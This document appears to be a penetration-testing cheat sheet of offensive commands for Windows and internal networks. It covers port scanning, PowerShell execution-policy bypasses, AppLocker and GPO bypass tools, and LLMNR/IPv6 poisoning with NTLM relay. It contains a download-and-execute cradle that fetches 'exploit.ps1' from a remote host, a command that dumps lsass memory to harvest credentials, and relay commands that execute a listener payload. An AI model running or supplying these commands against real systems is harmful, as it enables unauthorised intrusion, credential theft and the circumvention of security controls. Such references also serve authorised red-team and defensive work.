 ## Portscan
#### Nmap Few
```
nmap -sS -Pn -p 22,25,80,443,139,445,3306,1433,5432,1521,27001,8080,8000,8088,8443,5900,1099 --open -vvvv -iL <file> -oA nmap_few
```
#### Nmap 1k
```
nmap -sS -Pn --open -vvvv -iL <file> -oA nmap_1k
```
#### Masscan + nmap version Full
```
masscan -p 1-65535 --rate 10000 --wait 0 --open -iL ip.txt -oX masscan.xml
```
```
open_ports=$(cat masscan.xml | grep portid | cut -d "\"" -f 10 | sort -n | uniq | paste -sd,)
```
```
nmap -sS -Pn -A -sV -p $open_ports --open -vvvv -n -iL ip.txt -oA nmapfull
```
#### Naabu
```
naabu -list <ip.txt> -rate 5000 -nmap-cli 'nmap -sV -oA naabu_nmap'
```

## PowerShell Execution Bypass Techniques

#### Netspi blog - https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```
powershell.exe -ExecutionPolicy Bypass
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1
PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1
Echo Write-Host "My voice is my passport, verify me." | PowerShell.exe -noprofile -
powershell.exe -Enc VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA

Set-ExecutionPolicy Bypass -Scope Process
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
Get-Content .runme.ps1 | Invoke-Expression
GC .runme.ps1 | iex
TYPE .runme.ps1 | PowerShell.exe -noprofile -
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.0.1/exploit.ps1')"
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
Powershell -c "Write-Host 'My voice is my passport, verify me.'"
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
invoke-command -computername Server01 -scriptblock {get-executionpolicy} | set-executionpolicy -force
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy  .runme.ps1

```

## Bypass GPO and Applocker to execute Powershell

#### Powershx
```
https://github.com/iomoath/PowerShx
```

#### MSBuildshell
Download
```
https://github.com/Cn33liz/MSBuildShell/blob/master/MSBuildShell.csproj
```
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
Or
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
#### CScriptShell
```
https://github.com/Cn33liz/CScriptShell
```
#### Powershdll
```
https://github.com/p3nt4/PowerShdll
```
#### SyncAppvPublishingServer
```
SyncAppvPublishingServer.vbs "Break; mshta <remote file>"
```
#### Powerline
```
https://github.com/fullmetalcache/PowerLine
```
```
PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"
```
```
PowerLine.exe PowerUp "Invoke-AllChecks"
```
#### List AppLocker Rules - https://blog.pwn.al/security/applocker/bypass/custom/rules/windows/2018/09/13/applocker-custom-rules-bypass.html
```
Import-Module AppLocker
[xml]$data = Get-AppLockerPolicy -effective -xml

# Extracts All Rules and print them.
Write-Output "[+] Printing Applocker Rules [+]`n"
($data.AppLockerPolicy.RuleCollection | ? { $_.EnforcementMode -match "Enabled" }) | ForEach-Object -Process {
    Write-Output ($_.FilePathRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Path Rule ===`n`n Rule Name : $($_.Name) `n Condition : $($_.Conditions.FilePathCondition.Path)`n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
    Write-Output ($_.FileHashRule) | ForEach-Object -Process { Write-Output "=== File Hash Rule ===`n`n Rule Name : $($_.Name) `n File Name :  $($_.Conditions.FileHashCondition.FileHash.SourceFileName) `n Hash type : $($_.Conditions.FileHashCondition.FileHash.Type) `n Hash :  $($_.Conditions.FileHashCondition.FileHash.Data) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
    Write-Output ($_.FilePublisherRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Publisher Rule ===`n`n Rule Name : $($_.Name) `n PublisherName : $($_.Conditions.FilePublisherCondition.PublisherName) `n ProductName : $($_.Conditions.FilePublisherCondition.ProductName) `n BinaryName : $($_.Conditions.FilePublisherCondition.BinaryName) `n BinaryVersion Min. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.LowSection) `n BinaryVersion Max. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.HighSection) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
}
```
## Poisoning Attack

#### Responder
```
responder -I eth0
```
#### IPv6 DHCP Rogue Server 
Install Mitm6
```
pip install mitm6
```

```
mitm6 -i eth0
```

#### Generate SMB Signing Disabled Hosts
```
crackmapexec smb --gen-relay-list smb_sigb_disabled.txt ranges.txt
```
#### Relay Attacks 
ntlmrelayx
```
python3 ntlmrelayx.py -smb2support -tf filename
```
ntlmrelayx Comamnd execution
```
python3 ntlmrelayx.py -smb2support -tf filename -c <msf or koadic listener here>
```
Multirelay
```
python3 MultiRelay.py -t IP -u ALL
```
SMBrelay
```
python3 smbrelayx.py -h IP -c <command>
```
```
python3 smbrelayx.py -h IP -e <executable>
```
